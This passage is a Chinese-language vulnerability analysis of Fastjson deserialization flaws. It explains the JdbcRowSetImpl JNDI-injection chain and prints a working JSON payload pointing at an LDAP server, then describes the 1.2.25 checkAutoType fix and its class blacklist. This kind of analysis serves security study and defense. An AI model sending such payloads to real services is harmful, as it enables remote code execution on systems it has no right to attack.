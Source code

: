 
**JdbcRowSetImpl 反序列化**

JdbcRowSetImpl 类位于 `com.sun.rowset.JdbcRowSetImpl` ，这条漏洞利用链比较好理解，是 `javax.naming.InitialContext#lookup()` 参数可控导致的 JNDI 注入。

先看一下 `setAutoCommit()` 方法，在 `this.conn` 为空时，将会调用 `this.connect()` 方法。

![](../images/1616400334257.png)

方法里调用了 `javax.naming.InitialContext#lookup()` 方法，参数从成员变量 `dataSource` 中获取。

![](../images/1616400975286.png)

这时调用链就十分清晰了，最终的 payload 为：
```json
{
	"@type":"com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```

### 2. fastjson-1.2.25

在版本 1.2.25 中，官方对之前的反序列化漏洞进行了修复，引入了 checkAutoType 安全机制，默认情况下 autoTypeSupport 关闭，不能直接反序列化任意类，而打开 AutoType 之后，是基于内置黑名单来实现安全的，fastjson 也提供了添加黑名单的接口。

> 影响版本：`1.2.25 <= fastjson <= 1.2.41`
> 描述：作者通过为危险功能添加开关，并提供黑白名单两种方式进行安全防护，其实已经是相当完整的防护思路，而且作者已经意识到黑名单类将会无穷无尽，仅仅通过维护列表来防止反序列化漏洞并非最好的办法。而且靠用户自己来关注安全信息去维护也不现实。

安全更新主要集中在 `com.alibaba.fastjson.parser.ParserConfig`，首先查看类上出现了几个成员变量：布尔型的 autoTypeSupport，用来标识是否开启任意类型的反序列化，并且默认关闭；字符串数组 denyList ，是反序列化类的黑名单；acceptList 是反序列化白名单。

![](../images/1616459751324.png)

其中黑名单 denyList 包括：
```Java
bsh
com.mchange
com.sun.
java.lang.Thread
java.net.Socket
java.rmi
javax.xml
org.apache.bcel
org.apache.commons.beanutils
org.apache.commons.collections.Transformer
org.apache.commons.collections.functors
org.apache.commons.collections4.comparators
org.apache.commons.fileupload
org.apache.myfaces.context.servlet
org.apache.tomcat
org.apache.wicket.util
org.codehaus.groovy.runtime
org.hibernate
org.jboss
org.mozilla.javascript
org.python.core
org.springframework
```
